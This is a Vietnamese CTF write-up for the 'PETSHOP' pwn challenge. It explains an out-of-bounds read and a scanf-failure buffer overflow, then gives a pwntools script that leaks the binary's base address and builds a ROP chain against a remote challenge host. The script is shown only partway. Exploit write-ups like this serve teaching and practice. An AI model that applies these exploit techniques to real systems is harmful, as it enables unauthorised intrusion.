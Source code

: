 
#  PETSHOP


Ta có OOB ở trong hàm sell , ta có thể dùng nó để leak địa chỉ :

![image](https://github.com/DoQuangPhu/CTF_writeups/assets/93699926/edaef9a6-1840-4cec-9d9e-dd57f7630d07)

Ta có bof cũng ở trong hàm sell : 

![image](https://github.com/DoQuangPhu/CTF_writeups/assets/93699926/713f0fa3-8f40-4c85-bf20-2905174f21ff)

ta thấy chương trình check xem ở hàm scanf có trả về một 1 , tức là ta chỉ cần làm cho scanf scan fail là được , giá trị ở của n ở trên stack trước khi scan ko hề đươc khởi tạo ==> BOF :

```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./petshop_patched")
libc = ELF("./libc-2.31.so")
ld = ELF("./ld-2.31.so")

context.binary = exe
def GDB():
    gdb.attach(p,gdbscript='''
    c
    ''')
    input()

# p = process(exe.path)
p = remote("103.163.24.78",10001)
def buy(index,name):
    p.sendlineafter(b"--> ",b"buy "+ f"dog {index}".encode())
    p.sendlineafter(b"What is your pet's name?",name)

def info(payload):
    p.sendlineafter(b"--> ",b"info "+ payload)

def sell(payload,size,reason):
    p.sendlineafter(b"--> ",b"sell "+ payload)
    p.sendlineafter(b"You    -->",f"{size}".encode())
    p.sendlineafter(b"You    -->",reason)
buy(-6,b"dog1")
buy(0,b"dog2")
buy(1,b"dog3")
info(b"mine")
p.recvuntil(b"1. ")
exe.address = int.from_bytes(p.recvline()[:-1],"little")  - 0x4008
log.info("[+]EXE LEAK :"+hex(exe.address))
RDI = exe.address + 0x0000000000001a13
LEAK = exe.address + 0x18B2
RET = RDI +1
p.sendlineafter(b"--> ",b"sell 0")
p.sendlineafter(b"You    -->",f"{1000}".encode())
sleep(1)
p.sendline(b"sell 1")
p.sendline(b"+")
payload = flat(
    b"A"*0x200,p64(exe.address + 0x4500),
    RDI,exe.address + 0x3f88,
    LEAK
)
# GDB()
```